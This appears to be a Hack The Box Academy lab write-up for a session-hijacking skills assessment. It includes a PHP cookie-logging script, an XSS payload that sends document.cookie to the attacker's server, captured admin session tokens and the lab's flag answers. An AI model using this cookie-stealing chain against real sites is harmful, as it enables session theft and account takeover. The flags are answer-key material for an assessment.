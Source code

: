 # [Session Security](https://academy.hackthebox.com/module/details/153)

## Skills Assessment

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: "heavycat106"
    - Password: "rocknrol"
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

### Questions

#### Question #01

**Question**

Read the flag residing in the admin's public profile. Answer format: `<string>`

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ echo -e '10.129.246.17\tminilab.htb.net' | sudo tee -a /etc/hosts

10.129.246.17	minilab.htb.net
```

![Firefox - Login](./assets/screenshots/session_security_firefox_login.png)

![Firefox - Logged User Homepage](./assets/screenshots/session_security_firefox_logged_user_homepage.png)

![Firefox - XSS Payload Test 1](./assets/screenshots/session_security_firefox_xss_payload_test_1.png)

![Firefox - XSS Payload Test 2](./assets/screenshots/session_security_firefox_xss_payload_test_2.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ vim log.php

<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

exit;
?>

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ php -S 10.10.15.8:8000

[Wed May 28 08:50:17 2025] PHP 8.2.26 Development Server (http://10.10.15.8:8000) started

[CONTINUE]
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.8:8000/log.php?c=' + document.cookie;"></video>
```

![Firefox - XSS Cookie Payload 1](./assets/screenshots/session_security_firefox_xss_cookie_payload_1.png)

![Firefox - XSS Cookie Payload 2](./assets/screenshots/session_security_firefox_xss_cookie_payload_2.png)

![Firefox - Open Redirect /submit-solution Endpoint 1](./assets/screenshots/session_security_firefox_open_redirect_1.png)

![Firefox - Open Redirect /submit-solution Endpoint 2](./assets/screenshots/session_security_firefox_open_redirect_2.png)

```
[CONTINUE]

[Wed May 28 08:54:56 2025] 10.129.246.17:44022 Accepted
[Wed May 28 08:54:56 2025] 10.129.246.17:44020 Accepted
[Wed May 28 08:54:56 2025] 10.129.246.17:44022 [200]: GET /log.php?c=auth-session=s%3APFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ%2B2Oec
[Wed May 28 08:54:56 2025] 10.129.246.17:44022 Closing
[Wed May 28 08:54:57 2025] 10.129.246.17:44020 Closed without sending a request; it was probably just an unused speculative preconnection
[Wed May 28 08:54:57 2025] 10.129.246.17:44020 Closing
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ echo -n 's%3APFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ%2B2Oec' | sed 's/%/\\x/g' | xargs -0 echo -e

s:PFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ+2Oec
```

![Firefox - Session Hijacking 1](./assets/screenshots/session_security_firefox_session_hijacking_1.png)

![Firefox - Session Hijacking 2](./assets/screenshots/session_security_firefox_session_hijacking_2.png)

![Firefox - Session Hijacking 3](./assets/screenshots/session_security_firefox_session_hijacking_3.png)

**Answer**

```
[YOU_ARE_A_SESSION_WARRIOR]
```

#### Question #02

**Question**

Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: `FLAG{string}`

![Firefox - Download PCAP File](./assets/screenshots/session_security_firefox_download_pcap_file.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ file download-pcap.pcap 

download-pcap.pcap: pcapng capture file - version 1.0
```

![Wireshark - Analyze PCAP File](./assets/screenshots/session_security_wireshark_analyze_pcap_file.png)

**Answer**

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

---
---
